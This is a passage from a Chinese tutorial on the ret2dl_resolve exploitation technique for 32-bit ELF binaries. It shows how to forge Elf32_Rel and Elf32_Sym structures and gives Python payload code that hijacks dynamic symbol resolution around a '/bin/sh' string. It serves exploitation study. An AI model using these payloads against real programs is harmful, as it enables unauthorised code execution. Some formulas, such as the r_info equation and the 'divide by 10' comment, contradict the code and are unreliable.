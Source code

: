 然后需要伪造Elf32_Rel结构体：

```c
//glibc-2.27/elf/elf.h 中：（约第631行）
/* Relocation table entry without addend (in section of type SHT_REL).  */

typedef struct
{
  Elf32_Addr	r_offset;		/* Address */    //uint32_t大小为4字节
  Elf32_Word	r_info;			/* Relocation type and symbol index */   //uint32_t大小为4字节
} Elf32_Rel;
```

在这个结构体中，只有r_offset是已知的（.got.plt），r_info是未知的，r_info还有个assert断言检查：

```c
  /* Sanity check that we're really looking at a PLT relocation.  */
  assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);   //ELF_MACHINE_JMP_SLOT==0x7
```

这里要求reloc->r_info最低位必须为7，否则就会终止程序；前边讲过r_info>>8后会得到一个索引，对应此导入符号在ELF Symbol Table中的索引（exp中称为dynsym_index）：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627978799043-868b5f4b-517a-4fb1-9570-d93ecc01fdec.png)

> 注意，这里的索引和C语言数组的索引相同，都是从0开始的；在此part中不能使用IDA中Elf32_Rel任何成员值。
>

索引的计算可以使用如下公式进行计算：

```python
real_dynsym_start_addr=elf.get_section_by_name('.dynsym').header.sh_addr
dynsym_index=(fake_write_Elf32_Sym_addr-real_dynsym_start_addr)/0x10  
#伪造的ELF32_Sym的地址-真实的Elf32_Sym的起始地址的结果除10就是该索引即dynsym_index
```

然后再将dynsym_index>>8的最低位变为7就可以了；综上，payload如下：

```python
fake_r_offset=elf.got['write']   
dynsym_index=(fake_write_Elf32_Sym_addr-real_dynsym_start_addr)/0x10
fake_r_info=(dynsym_index<<0x8)|0x7                      #根据dynsym_index反推r_info
fake_write_Elf32_Rel=p32(fake_r_offset)+p32(fake_r_info) #伪造write的Elf32_Rel结构体
```

> 在ELF中：r_info>>8==(dynsym_index<<0x8) | 0x7
>

这里还得考虑一下Elf32_Sym结构体的对齐问题，Elf32_Rel的结构太过简单所以不用考虑，但是Elf32_Sym牵扯到后面的version计算和复杂的_dl_lookup_symbol_x函数执行；为了防止程序崩溃，这里得考虑一下对齐的问题，根据前面的经验可以知道构造的payload结构是这样的：

```python
payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(fake_reloc_arg)+p32(0xdeadbeef)
payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string))
payload2+=fake_write_Elf32_Rel
payload2+='b'*align                #进行16字节对齐
payload2+=fake_write_Elf32_Sym     #新增伪造的write_Elf32_Sym结构体

payload2+='c'*(80-len(payload2))   #补全，使write打印出"/bin/shx\00"
payload2+=string                   #"/bin/sh\x00"字符串
payload2+='d'*(100-len(payload2))
```
